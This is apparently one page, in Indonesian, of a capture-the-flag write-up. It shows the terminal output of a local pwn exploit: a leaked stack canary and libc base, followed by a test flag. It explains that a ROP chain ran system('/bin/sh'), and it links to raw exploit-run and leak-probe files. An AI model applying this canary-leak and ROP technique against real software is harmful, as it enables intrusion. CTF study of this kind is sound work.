


# NFXCTF Convention — Output asli

[← Overview](10-nfxctf-convention.md) · [Index](index.md)

## 3.4 Output asli

```text
[*] Loaded 218 cached gadgets for '.../src/peserta/libc.so.6'
[x] Starting local process '.../src/peserta/ld-linux-x86-64.so.2'
[+] Starting local process '.../src/peserta/ld-linux-x86-64.so.2': pid 141724
[+] canary    = 0x9f330b255584fe00
[+] ret@libc  = 0x722759829d90
[+] libc base = 0x722759800000
[+] Feedback saved to log.
NFX{LOCAL_TEST_FLAG_CONVENTION}
PWNED_END
```

Baris terakhir membuktikan ROP `system("/bin/sh")` berjalan dan shell membaca `flag.txt` di direktori kerja. Fixture lokal sengaja berisi `NFX{LOCAL_TEST_FLAG_CONVENTION}`; flag kompetisi adalah yang tercantum di bagian 4.

### Evidence langkah ini



*Terminal evidence — `03-exploit-run.txt` (arsip transkrip sesi solve).*



*Terminal evidence — `03b-leak-probe.txt` (arsip transkrip sesi solve).*

**Berkas mentah langkah ini:**

- [`03-exploit-run.txt`](assets/nfxctf-convention/03-exploit-run.txt)
- [`03b-leak-probe.py`](assets/nfxctf-convention/03b-leak-probe.py)
- [`03b-leak-probe.txt`](assets/nfxctf-convention/03b-leak-probe.txt)
